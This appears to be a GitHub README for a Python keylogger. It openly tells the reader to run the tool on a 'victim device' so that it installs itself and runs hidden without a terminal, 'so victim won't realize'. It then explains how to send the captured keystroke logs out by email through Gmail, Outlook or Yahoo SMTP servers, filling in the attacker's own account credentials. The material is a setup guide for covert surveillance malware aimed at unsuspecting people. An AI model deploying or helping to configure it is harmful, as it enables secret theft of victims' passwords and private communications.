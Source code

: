 # Keylogger

## Install 

    git clone https://github.com/OldKokoroz/Keylogger.git


## Setup

To try on your device run Keylogger.py 

to run on your victim device run main.py it will install requirements and 
automatically run keylogger.pyw (without a terminal) so victim won't realize 


## Getting log file 

| Server Name |  SMTP Server 	        | SMTP Port  |
| ----------- |  ---------------------  | ---------  |
| GMAIL 	  |  smtp.gmail.com 	    |  587       | 
| OUTLOOK 	  |  smtp-mail.outlook.com  |  587       | 
| YAHOO 	  |  smtp.mail.yahoo.com 	|  587       | 


You have to :

- open a new gmail account

         mail_send(your-email@gmail.com, your-passwd, log_msg)  ---- Do not touch log_msg

- enter your address instead of first ""

- enter your password instead of second ""

- It is set to send mails to the mail you give (that means you send logs to yourself with your account)
